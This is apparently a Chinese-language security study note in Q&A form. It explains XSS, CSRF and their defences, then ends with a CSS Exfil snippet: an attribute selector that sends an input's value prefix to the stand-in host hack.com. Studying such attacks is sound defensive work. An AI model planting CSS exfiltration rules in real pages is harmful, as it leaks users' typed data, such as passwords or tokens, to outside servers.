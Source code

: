 # Security Mind Map

[TOC]

## 浏览器

#### XSS 的原理是怎么样的？

XSS（Cross Site Scripting）跨站脚本攻击，通过某种方式将非法代码挂载在 URL、或者后端数据中，以达到让浏览器执行的目的。反射型 XSS 和储存型 XSS 都是利用后端返回的非法脚本直接在前端展示，就得到了执行。DOM-Based XSS 是通过修改源码内容来执行的。比如说，反射型 XSS 可能是一封黑客的邮件，链接参数带上了脚本代码；储存型 XSS 在可视化编辑器中很常见；DOM-Based XSS 可能是执行了一段 URL Hash 里面拿到的文本。

#### XSS 有哪些危害，怎么防范？

XSS 可以用来盗取 Cookie、DDos、篡改数据等。防范最基本要做的就是是后端不应该信任前端传来的数据，并且要做好过滤，把字符转义为 HTML 实体。其次是给 Cookie 设上 http-only。

#### CSRF 攻击原理是怎么样的？

CSRF（Cross Site Request Forgery）跨站请求伪造，主要原理是黑客利用了用户在敏感站点保持的登录态，在另一个用户访问的网页去伪造敏感站点的请求。

#### CSRF 怎么防范？

可以使用 CSRF token 方案。每次用户请求 HTML 都在其中设置一个随机的 Token，在请求时带上。

## 三剑客

#### CSS Exfil 攻击原理是什么？

```css
input[value^=a]{
  background-image: url(http://hack.com/a);
}
```
